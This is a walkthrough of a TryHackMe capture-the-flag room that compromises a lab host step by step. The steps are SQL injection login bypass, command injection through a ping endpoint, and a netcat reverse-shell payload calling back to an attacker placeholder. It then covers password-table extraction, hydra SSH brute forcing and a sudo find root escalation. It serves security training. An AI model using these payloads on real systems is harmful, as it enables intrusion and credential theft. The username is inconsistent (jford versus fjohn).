# Operation Promotion — TryHackMe Writeup

## Overview

**Room:** Operation Promotion  
**Platform:** TryHackMe  
**Difficulty:** Easy  
**Focus:** Network Enumeration, SMB Enumeration, Directory Enumeration, SQL Injection, Command Injection, Remote Code Execution (RCE), Reverse Shells, SQLite Database Enumeration, Password Cracking, Password List Creation, SSH Access, Privilege Escalation

## Attack Path

```text
Nmap service enumeration
        ↓
Anonymous SMB enumeration
        ↓
Gobuster web directory enumeration
        ↓
SQL injection
        ↓
Admin console access
        ↓
User enumeration
        ↓
Command injection
        ↓
Reverse shell as www-data
        ↓
Configuration and SQLite database enumeration
        ↓
Password hash analysis
        ↓
Custom wordlist generation
        ↓
Hydra SSH credential discovery
        ↓
SSH access
        ↓
User flag
        ↓
Sudo privilege enumeration
        ↓
Exploitation of find sudo permissions
        ↓
Root shell
        ↓
Root flag
```

---

## 1. Nmap Enumeration

I started by scanning the target to identify open ports, running services, and potential attack surfaces.

```bash
nmap -sC -sV <TARGET_IP>
```
The scan identified the following services:

- **22/tcp — SSH**
- **80/tcp — HTTP**
- **139/tcp — NetBIOS/SMB**
- **445/tcp — SMB**

HTTP was the primary web attack surface, while SSH and SMB were additional services to investigate.

**Screenshot:** `screenshots/01-nmap.png`



## 2. SMB and Web Directory Enumeration

### 2.1 Anonymous SMB Enumeration

I checked whether SMB allowed anonymous access and exposed any useful shares.

```bash
smbclient -L //<TARGET_IP>/ -N
```

I then attempted to connect to the public share without credentials.

```bash
smbclient //<TARGET_IP>/public -N
```

Where accessible, I retrieved the README file:

```text
get README.txt
```

Anonymous SMB enumeration did not provide a useful route to the target, so I continued with web enumeration.



### 2.2 Gobuster Directory Enumeration

I used Gobuster to discover directories and files that were not immediately visible through the website.

```bash
gobuster dir -u http://<TARGET_IP>/ -w /usr/share/wordlists/dirb/common.txt
```

The scan identified the following paths:

- `/admin`
- `/index.php`
- `/robots.txt`

The `/admin` directory was particularly relevant because it suggested that the application had an administrative interface.



## 3. SQL Injection and Admin Console Access

### 3.1 Exploiting SQL Injection

It appeard that the `/admin` directory is a login portal with a `Username` and `Password` field. I investigated the web application's input fields for SQL injection vulnerabilities.

The following payload was used to test whether the application improperly handled SQL input:

```text
' OR 1=1 --
```

The payload altered the intended SQL condition by introducing an always-true expression and commenting out the remainder of the query.

This demonstrated that the application was vulnerable to SQL injection and provided a way to bypass the intended query restrictions.



### 3.2 User Enumeration

After gaining access to the relevant application functionality provided on the dashboard called `User Lookup`. I enumerated user records to identify potentially useful accounts.

The enumeration revealed an account with the user ID `1`, identified as the administrator, with the note:

```javascript
Primary admin account
```

I also identified the `sysmain` account, which had an ID of `7`. Its associated note referenced:

```text
/sysmaint-checks/ping.php
```

This endpoint became important during further investigation because it pointed toward the application's ping functionality.



## 4. Command Injection and Remote Code Execution

### 4.1 Testing Command Injection

I investigated the ping functionality referenced during user enumeration. The endpoint accepted a hostname or address, making it a potential target for operating-system command injection.

I supplied the following input:

```text
/admin/sysmaint-checks/ping.php?host=google.com;id
```

The application returned:

```javascript
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The output confirmed that the injected command was executed by the web server under the `www-data` account.

This established command execution in the context of the web application.



### 4.2 Obtaining a Reverse Shell

With command injection confirmed, I prepared a Netcat listener on my attacking machine.

```bash
nc -lnvp 4444
```

I then used the following reverse-shell payload, replacing `<ATTACKER_IP>` with the IP address of my attacking machine:

```text
127.0.0.1;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <ATTACKER_IP> 4444 >/tmp/f
```

The payload created a named pipe and connected the shell's input and output to Netcat, allowing the target to establish a connection back to my listener.

For submission through the web application, I used the URL-encoded version:

```text
127.0.0.1%3Brm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20<ATTACKER_IP>%204444%20%3E%2Ftmp%2Ff
```

Once the reverse shell connected, I upgraded it to a more usable interactive shell.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

I now had shell access as `www-data`, allowing me to inspect the application's files and search for credentials.



## 5. Configuration Files and SQLite Database Enumeration

### 5.1 Inspecting Application Files

With shell access, I examined the web application's configuration and source files.

The relevant paths were:

```text
/var/www/html/config
/var/www/html/admin/index.php
```

The configuration directory contained creadential that seemed useful for understanding how the application stored and handled authentication data.

A password hash, username and DB engine recovered during this stage was:

```text
db_name=jford
db_pass_hash=$2b$10$QzkXmGndA2cQLozO3xAN6eWKrl6ZXyzhYTJNF67exOmTmN5oVSEfq
db_engine=sqlite3
```

I attempted to decrypt the hash but I got no results on every cracking tool. The initial password-pattern attempt did not succeed, so I continued examining the application source and database.



### 5.2 Discovering the SQLite Database

I inspected the application's PHP source code, located at `/var/www/html/admin/index.php/` to determine where its database was stored.

The source referenced the following SQLite database:

```javacript
/var/lib/reqruitcorp/app.db
```

If i could read the data in the DB i might be able to extract the db_user password in plain text.

### 5.3 Enumerating SQLite Tables

I used SQLite to inspect the database structure and identify tables containing useful information.

```bash
sqlite3 /var/lib/reqruitcorp/app.db
```

Within the SQLite prompt, I listed the available tables:

```bash
.tables
```

A single table, named users, appeared as output

I used a SQL query to read the contents of the users table:

```text
select * from users
```

This allowed me to identify the tables and columns that contained usernames, passwords, and other authentication-related data.


### 5.4 Extracting User Records

After identifying the relevant table, I queried its records to obtain the available user information and credential data.

```text
admin | A!7sf90DkLp_Q3e
mvasquez | pw_mv_4831
tparker | pw_tp_2210
lhayes | pw_lh_9911
kchen | pw_kc_7763
rdavis | pw_rd_2241
sysmaint | pw_sm_8841
jbailey | pw_jb_3392
aokafor | pw_ao_5588
```



The list of passwords seemed to follow a pattern which left me to believe the password for the db_user, `jford`, would be the same.

I wont waste time going in depth but i created a python script that appended every possible 4 digits to the end of `pw_jf_` to brute force against. None of those passwords worked

## 6. Custom Password Wordlist and SSH Credential Discovery

### 6.1 Investigating the Password Pattern

I initially tested a password pattern based on the username:

```text
pw_jf_****
```

The pattern used four variable digits, but the attempt did not recover the required password.

I then revisited the information exposed by the website. Further analysis also suggests the organization follows a predictable password policy using the current season, year, and a special character. The front page displayed the string:

```text 
Spring 2026
```

This provided a more promising basis for a targeted password search.

### 6.2 Generating a Custom Wordlist

I used Hashcat's rule-processing functionality to generate password variations from a base wordlist. The website suggested that the recruitment application is currently open during the period of Spring of 2026. This made me believe the company could be using periodic password changes according to a password policy of changing yor password every 90 days.

```text
[Season] + [Current Year] + [Special Character]
```

I created a base.txt file containing the text I speculated from the website contents

```bash
echo "spring2026" > base.txt
```

```bash
hashcat --stdout base.txt -r /usr/share/hashcat/rules/dive.rule > wordlist.txt
```

The command applied the `dive.rule` rule set to the words in `base.txt` and saved the generated candidates to `wordlist.txt`.

This created a larger, targeted wordlist that could be used for credential testing.


### 6.3 Discovering the SSH Password with Hydra

The website's `spring2026` string suggested that a related password variation might be in use.

The password that worked was:

```text
spring2026!
```

I used Hydra to test the generated wordlist against SSH. The username recorded for this Hydra attempt was `jford`. The password wordlist i used is the one i created using hashcat `wordlist.txt`. The hydra command was as followed:

```bash
hydra -l jford -P wordlist.txt ssh://<TARGET_IP>
```

**Screenshot:** `screenshots/12-hydra-result.png`



## 7. SSH Access and User Flag

With the recovered password, I attempted to connect to the target over SSH.

```bash
ssh fjohn@<TARGET_IP>
```

After obtaining a shell, I enumerated the accessible files and searched for the user flag.

The recorded flag path was:

```text
/home/jford/user.txt
```

I read the flag from that location.

```bash
cat /home/jford/user.txt
```

**User flag:**

```text
THM{REDACTED}
```



## 8. Privilege Escalation Using find

### 8.1 Enumerating Sudo Permissions

After obtaining user-level access, I checked which commands the current account was permitted to execute with elevated privileges.

```bash
sudo -l
```

The output revealed a permission involving `/usr/bin/find`. Since `find` can execute commands, this permission provided a potential route to a root shell.

**Screenshot:** `screenshots/14-sudo-permissions.png`



### 8.2 Exploiting the Sudo Misconfiguration

I used the permitted `/usr/bin/find` command to execute Bash with elevated privileges.

```bash
sudo /usr/bin/find . -exec /bin/bash \; -quit
```

I then verified the resulting privileges:

```bash
whoami
```

The output was:

```text
root
```

This confirmed successful privilege escalation from the compromised user account to root.

### 8.3 Retrieving the Root Flag

With root access, I located and read the root flag.

**Root flag:**

```text
THM{REDACTED}
```

The redacted flag values should be replaced with the actual flags from the completed room before publishing.



## 9. Attack Chain Summary

The complete attack path was:

Nmap service enumeration
        ↓
SMB anonymous access investigation
        ↓
Gobuster directory enumeration
        ↓
SQL injection
        ↓
Administrative functionality and user enumeration
        ↓
Command injection through ping functionality
        ↓
Remote shell as www-data
        ↓
Configuration and database analysis
        ↓
SQLite credential enumeration
        ↓
Custom wordlist generation
        ↓
Hydra SSH password discovery
        ↓
SSH access
        ↓
User flag retrieval
        ↓
Sudo permission enumeration
        ↓
find command abuse
        ↓
Root shell
        ↓
Root flag retrieval

# Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| Anonymous SMB Access | Allowed unauthenticated access to the public share, although the discovered README was not useful for further exploitation |
| Directory Enumeration | Revealed the `/admin` directory and additional application paths |
| SQL Injection | Allowed authentication bypass and access to the RecruitCorp admin console |
| User Enumeration | Exposed usernames, account roles, and notes that provided clues for further exploitation |
| OS Command Injection | Allowed additional operating system commands to be executed through the ping endpoint |
| Remote Code Execution | Provided command execution in the context of the web server's `www-data` account |
| Reverse Shell Access | Established an interactive session on the target system |
| Sensitive Configuration Disclosure | Exposed database connection details and a password hash |
| Insecure Database Access | Allowed inspection of the application's SQLite database and its user records |
| Predictable Password Patterns | Enabled targeted password guessing and the discovery of credentials for `jford` |
| Obvious Password Policy Reuse | Creating user passwords with predictable schemes created a brute force vulnerability |
| Excessive Privileges on `/usr/bin/find` | Provided a path to root-level privilege escalation |

---

# Lessons Learned

The Operation Promotion attack chain demonstrates how weaknesses in a web application, database configuration, password practices, and operating system permissions can be combined to compromise a host.

Initial enumeration identified four open ports, including HTTP and SMB. Although anonymous SMB access did not provide a useful path forward, Gobuster revealed the `/admin` directory. SQL injection in the login functionality then allowed me to bypass authentication and access the RecruitCorp admin console.

The user lookup function exposed account information and notes. One of those notes pointed towards the system maintenance ping endpoint, which accepted user-controlled input and was vulnerable to OS command injection. By injecting an additional command, I confirmed remote command execution as `www-data` and established a reverse shell.

Further filesystem and source-code enumeration revealed application configuration files and the location of the SQLite database. Although the password hash found in the configuration was not successfully cracked, inspecting the application source code exposed the database path. Querying the `users` table revealed account information that helped me identify a predictable password pattern.

My initial password candidates were unsuccessful, so I refined the approach and used Hashcat to help generate a targeted list of candidate passwords. This led to the discovery of the password `spring2026!`, which provided SSH access as `fjohn`. After retrieving the user flag, I enumerated the account's elevated permissions and used the privileged `find` command to escalate to root and retrieve the final flag.

The main lesson from Operation Promotion is that a successful compromise often depends on following evidence from one stage to the next. SQL injection exposed the internal console, account notes revealed a vulnerable endpoint, command injection enabled filesystem access, database enumeration provided credential clues, and excessive privileges on a system utility enabled the final escalation. Properly parameterised SQL queries, strict validation of command inputs, restricted database access, unique and unpredictable passwords, and carefully controlled executable permissions would help prevent this attack chain.
